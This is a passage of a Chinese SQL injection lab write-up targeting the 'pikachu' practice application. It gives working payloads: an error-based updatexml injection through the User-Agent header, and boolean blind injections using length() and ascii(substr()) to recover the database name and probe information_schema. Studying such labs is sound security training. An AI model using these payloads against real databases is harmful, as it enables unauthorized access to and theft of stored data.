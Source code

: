 过程：

用 user agent 这个字段来进行测试。删除整个字段，输入 payload

![image-20221203202703705.png](https://img.ghostliner.top/788Wm7.png)

\*注：此数据包非第一次 request 的包，在中间过程产生的包。

```sql
'
1'or updatexml(1,concat(0x7e,database()),1) or'
```

注入成功，之后可使用 updatexml 方法获取数据库中用户数据

#### 1.1.9. 盲注(base on boolian)

```sql
12
#success
12'
'
#error
'
12'+and+'1'='1
'
#success
```

字符型注入，构造 payload：

```sql
'
12'+and+length(database())=7--+用#注释报错，改为--+
#确定数据库名长度为7
'
12'+and+ascii(substr(database(),1,1))>=48--+
'
12'+and+ascii(substr(database(),1,1))>=65--+
'
12'+and+ascii(substr(database(),1,1))>=97--+
```

可知第一个字符为小写字母，使用 burpsuit 的 Intruder

![image-20221203210255171.png](https://img.ghostliner.top/Nz86P3.png)

获取第一个字母为 p

最终获取数据库名为 pikachu

```sql
'
12'+and+length((select+group_concat(table_name)+from+information_schema.tables+where+table_schema=database()))>=3--+
```

length=38
